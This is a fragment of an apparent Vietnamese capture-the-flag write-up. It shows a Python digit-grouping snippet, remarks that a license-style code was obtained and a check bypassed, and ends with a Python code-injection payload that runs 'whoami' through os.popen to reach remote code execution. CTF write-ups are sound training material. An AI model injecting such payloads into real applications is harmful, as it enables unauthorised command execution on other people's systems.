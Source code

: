 ``` python
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
- Có được mã:
 ![alt text](image-39.png)
- Bùm 
 ![alt text](image-40.png)
- Đã bypass thành công bây giờ chỉ cần RCE lấy FLAG
- <b>__import__('os').popen('whoami').read()</b>
